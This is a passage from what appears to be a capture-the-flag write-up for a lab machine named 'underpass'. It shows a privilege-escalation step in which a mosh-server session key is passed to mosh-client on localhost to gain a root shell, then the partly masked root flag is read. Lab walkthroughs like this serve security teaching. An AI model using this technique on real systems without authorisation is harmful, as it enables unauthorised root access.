 It is worth nothing that these server sessions seem to be cleared fairly frequently, so if I want too long, I’ll have to start the server again. I’ll run again, this time setting the environment variable to the key from the server at the start of the command, and it gives a shell:

```

svcMosh@underpass:/home$ MOSH_KEY=DTokqgn0cTYP6mTpvcQjSw mosh-client 127.0.0.1 60001
...[snip]...
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64) 
...[snip]...
root@underpass:~#

```

And I can grab `root.txt`:

```

root@underpass:~# cat root.txt
03148d5f************************

```
